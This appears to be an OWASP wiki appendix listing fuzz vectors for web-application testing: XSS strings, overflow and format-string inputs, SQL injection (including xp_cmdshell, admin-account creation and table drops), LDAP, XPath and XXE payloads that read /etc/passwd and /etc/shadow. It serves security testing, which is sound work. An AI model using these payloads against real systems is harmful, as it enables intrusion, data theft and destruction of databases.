 The following are fuzzing vectors which can be used with
[WebScarab](WebScarab "wikilink"), [JBroFuzz](JBroFuzz "wikilink"),
[WSFuzzer](WSFuzzer "wikilink"), [ZAP](ZAP "wikilink") or another
fuzzer. Fuzzing is the "kitchen sink" approach to testing the response
of an application to parameter manipulation. Generally one looks for
error conditions that are generated in an application as a result of
fuzzing. This is the simple part of the discovery phase. Once an error
has been discovered identifying and exploiting a potential vulnerability
is where skill is required.

### Fuzz Categories

In the case of stateless network protocol fuzzing (like HTTP(S)) two
broad categories exist:

  - Recursive fuzzing
  - Replacive fuzzing

We examine and define each category in the sub-sections that follow.

#### Recursive fuzzing

Recursive fuzzing can be defined as the process of fuzzing a part of a
request by iterating through all the possible combinations of a set
alphabet. Consider the case of:

    <nowiki>http://www.example.com/8302fa3b</nowiki>

Selecting "8302fa3b" as a part of the request to be fuzzed against the
set hexadecimal alphabet (i.e. {0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f}) falls
under the category of recursive fuzzing. This would generate a total of
16^8 requests of the form:

    <nowiki>http://www.example.com/00000000</nowiki>
    <nowiki>...</nowiki>
    <nowiki>http://www.example.com/11000fff</nowiki>
    <nowiki>...</nowiki>
    <nowiki>http://www.example.com/ffffffff</nowiki>

#### Replacive fuzzing

Replacive fuzzing can be defined as the process of fuzzing part of a
request by means of replacing it with a set value. This value is known
as a fuzz vector. In the case of:

    <nowiki>http://www.example.com/8302fa3b</nowiki>

Testing against Cross Site Scripting (XSS) by sending the following fuzz
vectors:

    <nowiki>http://www.example.com/>"><script>alert("XSS")</script>&</nowiki>
    <nowiki>http://www.example.com/'';!--"<XSS>=&{()}</nowiki>

This is a form of replacive fuzzing. In this category, the total number
of requests is dependent on the number of fuzz vectors specified.

The remainder of this appendix presents a number of fuzz vector
categories.

### Cross Site Scripting (XSS)

For details on XSS: [Cross-site Scripting
(XSS)](Cross-site_Scripting_\(XSS\) "wikilink")

`>"><script>alert("XSS")</script>&`
`"><STYLE>@import"javascript:alert('XSS')";</STYLE>`
`>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;`
` alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>`
` >%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>`
`'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'`
`">`
`>"`
`'';!--"<XSS>=&{()}`
`<IMG SRC="javascript:alert('XSS');">`
`<IMG SRC=javascript:alert('XSS')>`
`<IMG SRC=JaVaScRiPt:alert('XSS')> `
`<IMG SRC=JaVaScRiPt:alert("XSS<WBR>")>`
`<IMGSRC=java&<WBR>#115;crip&<WBR>#116;:a`
` le&<WBR>#114;t('X&#83<WBR>;S'&#41>`
`<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116:`
` &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>`
` <IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74(`
` &<WBR>#x27&#x58&#x53&#x53&#x27&#x29>`
` <IMG SRC="jav	ascript:alert(<WBR>'XSS');">`
`<IMG SRC="jav`
`ascript:alert(<WBR>'XSS');">`
`<IMG SRC="javascript:alert(<WBR>'XSS');">`

### Buffer Overflows and Format String Errors

#### Buffer Overflows (BFO)

A buffer overflow or memory corruption attack is a programming condition
which allows overflowing of valid data beyond its prelocated storage
limit in memory.

For details on Buffer Overflows: [Testing for Buffer
Overflow](Testing_for_Buffer_Overflow_\(OWASP-DV-014\) "wikilink")

Note that attempting to load such a definition file within a fuzzer
application can potentially cause the application to crash.

`A x 5`
`A x 17`
`A x 33`
`A x 65`
`A x 129`
`A x 257`
`A x 513`
`A x 1024`
`A x 2049`
`A x 4097`
`A x 8193`
`A x 12288`

#### Format String Errors (FSE)

Format string attacks are a class of vulnerabilities that involve
supplying language specific format tokens to execute arbitrary code or
crash a program. Fuzzing for such errors has as an objective to check
for unfiltered user input.

An excellent introduction on FSE can be found in the USENIX paper
entitled: [Detecting Format String Vulnerabilities with Type
Qualifiers](http://research.microsoft.com/pubs/74359/01-shankar.pdfl)

Note that attempting to load such a definition file within a fuzzer
application can potentially cause the application to crash.

`%s%p%x%d`
`.1024d`
`%.2049d`
`%p%p%p%p`
`%x%x%x%x`
`%d%d%d%d`
`%s%s%s%s`
`%99999999999s`
`%08x`
`%%20d`
`%%20n`
`%%20x`
`%%20s`
`%s%s%s%s%s%s%s%s%s%s`
`%p%p%p%p%p%p%p%p%p%p`
`%#0123456x%08x%x%s%p%d%n%o%u%c%h%l%q%j%z%Z%t%i%e%g%f%a%C%S%08x%%`
`%s x 129`
`%x x 257`

#### Integer Overflows (INT)

Integer overflow errors occur when a program fails to account for the
fact that an arithmetic operation can result in a quantity either
greater than a data type's maximum value or less than its minimum value.
If a tester can cause the program to perform such a memory allocation,
the program can be potentially vulnerable to a buffer overflow attack.

`-1`
`0`
`0x100`
`0x1000`
`0x3fffffff`
`0x7ffffffe`
`0x7fffffff`
`0x80000000`
`0xfffffffe`
`0xffffffff`
`0x10000`
`0x100000`

### SQL Injection

This attack can affect the database layer of an application and is
typically present when user input is not filtered for SQL statements.

For details on Testing SQL Injection: [Testing for SQL
Injection](Testing_for_SQL_Injection_\(OWASP-DV-005\) "wikilink")

SQL Injection is classified in the following two categories, depending
on the exposure of database information (passive) or the alteration of
database information (active).

  - Passive SQL Injection
  - Active SQL Injection

Active SQL Injection statements can have a detrimental effect on the
underlying database if successfully executed.

#### Passive SQL Injection (SQP)

`'`
`|`
`|(elt(-3+5,bin(15),ord(10),hex(char(45))))`
`  `
`|`
`|6`
`'`
`|`
`|'6`
`(`
`|`
`|6)`
`' OR 1=1-- `
`OR 1=1`
`' OR '1'='1`
`; OR '1'='1'`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+OR+%277659%27%3D%277659`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+--+`
`' or 1=1--`
`" or 1=1--`
`' or 1=1 /*`
`or 1=1--`
`' or 'a'='a`
`" or "a"="a`
`') or ('a'='a`
`Admin' OR '`
`'%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--`
`) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;`
`' having 1=1--`
`' having 1=1--`
`' group by userid having 1=1--`
`' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = tablename')--`
`' or 1 in (select @@version)--`
`' union all select @@version--`
`' OR 'unusual' = 'unusual'`
`' OR 'something' = 'some'+'thing'`
`' OR 'text' = N'text'`
`' OR 'something' like 'some%'`
`' OR 2 > 1`
`' OR 'text' > 't'`
`' OR 'whatever' in ('whatever')`
`' OR 2 BETWEEN 1 and 3`
`' or username like char(37);`
`' union select * from users where login = char(114,111,111,116);`
`' union select `
`Password:*/=1--`
`UNI/**/ON SEL/**/ECT`
`'; EXECUTE IMMEDIATE 'SEL' `
`|`
`| 'ECT US' `
`|`
`| 'ER'`
`'; EXEC ('SEL' + 'ECT US' + 'ER')`
`'/**/OR/**/1/**/=/**/1`
`' or 1/*`
`+or+isnull%281%2F0%29+%2F*`
`%27+OR+%277659%27%3D%277659`
`%22+or+isnull%281%2F0%29+%2F*`
`%27+--+&password=`
`'; begin declare @var varchar(8000) set @var=':' select @var=@var+'+login+'/'+password+' ' from users where login > `
` @var select @var as var into temp end --`
` ' and 1 in (select var from temp)--`
`' union select 1,load_file('/etc/passwd'),1,1,1;`
`1;(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;`
`' and 1=( if((load_file(char(110,46,101,120,116))<>char(39,39)),1,0));`

#### Active SQL Injection (SQI)

`'; exec master..xp_cmdshell 'ping 10.10.1.2'--`
`CREATE USER name IDENTIFIED BY 'pass123'`
`CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users; `
`' ; drop table temp --`
`exec sp_addlogin 'name' , 'password'`
`exec sp_addsrvrolemember 'name' , 'sysadmin'`
`INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))`
`GRANT CONNECT TO name; GRANT RESOURCE TO name;`
`INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70) `
` + char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)`

### LDAP Injection

For details on LDAP Injection: [Testing for LDAP
Injection](Testing_for_LDAP_Injection_\(OWASP-DV-006\) "wikilink")

`  `
`|`
`!`
`(`
`)`
`%28`
`%29`
`&`
`%26`
`%21`
`%7C`
`*`
`|`
`%2A%7C`
`*(`
`|(mail=*))`
`%2A%28%7C%28mail%3D%2A%29%29`
`*(`
`|(objectclass=*))`
`%2A%28%7C%28objectclass%3D%2A%29%29`
`*()`
`|%26'`
`admin*`
`admin*)((`
`|userPassword=*)`
`*)(uid=*))(`
`|(uid=*`

### XPATH Injection

For details on XPATH Injection: [Testing for XPath
Injection](Testing_for_XPath_Injection_\(OWASP-DV-010\) "wikilink")

`'+or+'1'='1`
`'+or+''='`
`x'+or+1=1+or+'x'='y`
`/`
`//`
`//*`
`*/*`
`@*`
`count(/child::node())`
`x'+or+name()='username'+or+'x'='y`

### XML Injection

Details on XML Injection here: [Testing for XML
Injection](Testing_for_XML_Injection_\(OWASP-DV-008\) "wikilink")

`var n=0;while(true){n++;}</script>]]>`
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`